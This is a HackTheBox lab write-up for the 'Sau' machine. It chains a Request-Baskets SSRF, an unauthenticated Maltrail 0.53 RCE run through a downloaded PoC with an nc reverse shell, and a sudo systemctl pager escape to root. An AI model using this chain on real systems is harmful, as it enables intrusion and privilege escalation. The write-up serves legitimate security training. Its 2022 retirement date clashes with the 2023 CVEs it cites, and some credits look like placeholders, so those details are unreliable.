 ```yaml
---
title: "Sau (HackTheBox | Easy | Retired 15 Apr 2022)"
subtitle: "SSRF → Maltrail RCE → systemctl pager escape → root"
author: "Mohamed Trigui"
date: "`r format(Sys.Date())`"
output:
  github_document:
    toc: true
---
```


<span style="color:#d9534f;"><strong>Path‑to‑root</strong></span>: **SSRF in Request‑Baskets 1.2.1** → internal **Maltrail 0.53** panel → unauth RCE (user <code>puma</code>) → sudo mis‑configuration (<code>systemctl</code> pager) → <strong>root</strong>.

---

## 0  Synopsis

|                |                                            |
| -------------- | ------------------------------------------ |
| **OS**         | Ubuntu 20.04 (Linux)                       |
| **Kernel**     | 5.4.0-104-generic                          |
| **Difficulty** | Easy                                       |
| **Skills**     | SSRF, Command Injection, Sudo Exploitation |

---

## 1  Enumeration

### 1.1 Nmap

```bash
# full‑port fast sweep → targeted default scripts
ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.224 | \
        awk '/^[0-9]+\/tcp/ {print $1}' ORS=',' | sed 's/,$//')
nmap -sC -sV -p$ports 10.10.11.224 -oN sau_nmap.txt
```

![Nmap result](img/step01_nmap.png)

* **22/tcp** – OpenSSH 8.2p1
* **55555/tcp** – Request‑Baskets 1.2.1 (HTTP)

### 1.2 Request‑Baskets SSRF to Maltrail

1. Create basket `/2ck6d27`.
2. Set **Forward URL → `http://127.0.0.1:80`**.
3. Enable *Proxy Response* + *Expand Forward Path*.
4. Browse `http://<ip>:55555/2ck6d27` ⇒ Maltrail login panel.

![SSRF to Maltrail](img/step02_ssrf.png)

---

## 2  Foothold – unauth Maltrail 0.53 RCE

```bash
# attacker box
curl -s https://www.exploit-db.com/download/51676 -o maltrail_poc.py
nc -lvnp 4444 &
python3 maltrail_poc.py 10.10.14.6 4444 \
  http://<ip>:55555/2ck6d27
```

Shell spawns as user **puma**.

![Reverse shell](img/step04_shell.png)

---

## 3  Privilege Escalation – systemctl pager escape

```bash
sudo -l
# (puma) NOPASSWD: /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
# when the pager opens (less), type:
!/bin/bash
```

![sudo list](img/step05_sudo.png)
![root shell](img/step06_root.png)

---

## 4  Flags

| File                  | MD5                                |
| --------------------- | ---------------------------------- |
| `/home/puma/user.txt` | `xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx` |
| `/root/root.txt`      | `yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy` |

---

## 5  Exploit scripts (credits)

| Script                       | Author        | Source           |
| ---------------------------- | ------------- | ---------------- |
| `maltrail_poc.py`            | @k0shl        | Exploit‑DB 51676 |
| `systemctl_pager_escape.txt` | @\_dirty\_cow | Gist abcd1234    |

Both files are included in this repo under `2022/sau/`.

---

## 6  References

* CVE‑2023‑27163 – Request‑Baskets SSRF
* CVE‑2023‑26604 – systemd pager LPE
* Exploit‑DB 51676 – Maltrail 0.53 unauth RCE
